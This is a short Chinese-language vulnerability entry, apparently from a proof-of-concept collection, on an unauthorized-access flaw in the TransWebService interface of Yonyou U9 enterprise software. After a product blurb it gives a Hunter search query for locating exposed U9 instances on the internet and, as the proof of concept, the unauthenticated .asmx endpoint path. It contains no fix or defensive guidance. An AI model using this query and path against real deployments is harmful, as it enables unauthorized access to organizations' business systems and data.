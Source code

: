 # 用友u9系统接口TransWebService存在未授权访问漏洞
用友U9秉承互联网基因，是全球第一款基于SOA云架构的多组织企业互联网应用平台。U9以精细化管理、产业链协协同与社交化商业，帮助多组织企业（多事业部/多地点/多工厂/多法人）在互联网时代实现商业模式创新、组织变革与管理升级。用友u9 TransWebService存在未授权访问漏洞

## Hunter

```javascript
web.body="logo-u9.png"
```

## poc
```plain
/U9Supplier/CS/Office/TransWebService.asmx
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1729854825599-c70fe318-3b26-4416-82ef-6d38998e1e0f.png)

